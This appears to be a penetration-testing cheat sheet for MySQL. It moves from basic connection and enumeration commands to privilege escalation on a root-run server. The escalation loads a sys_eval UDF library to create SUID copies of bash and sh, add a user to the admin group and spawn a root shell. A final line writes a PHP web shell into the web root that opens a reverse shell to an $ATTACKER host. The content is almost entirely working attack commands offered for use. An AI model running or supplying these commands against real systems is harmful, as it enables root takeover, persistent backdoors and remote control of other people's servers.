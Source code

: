 
Connect to MYSQL server:
---
#mysql #connect

```shell
mysql -h $TARGET_IP -u $USER -p
```
Show list of databases:
```sql
show databases;
```
Show list of tables in current DB:
```sql
show tables;
```
Priv esc if running as root:
#mysql #privesc #priv-esc

```sql
use mysql;
show tables;
select * from func;
CREATE FUNCTION sys_eval RETURNS INT SONAME 'lib_mysqludf_sys.so';
SELECT sys_eval("cp /bin/bash /var/tmp/bash ; chmod u+s /var/tmp/bash");
```

OR

```mysql
select sys_exec('cp /bin/sh /tmp; chown root:root /tmp/sh; chmod +s /tmp/sh');
select sys_exec('usermod -a -G admin USER');
```

```shell
cd /var/tmp
./bash -p
```

```mysql
select "<?php exec(\"/bin/bash -c 'bash -i > /dev/tcp/$ATTACKER/4444 0>&1'\");?>" into outfile "/var/www/.../shell.php";
```
---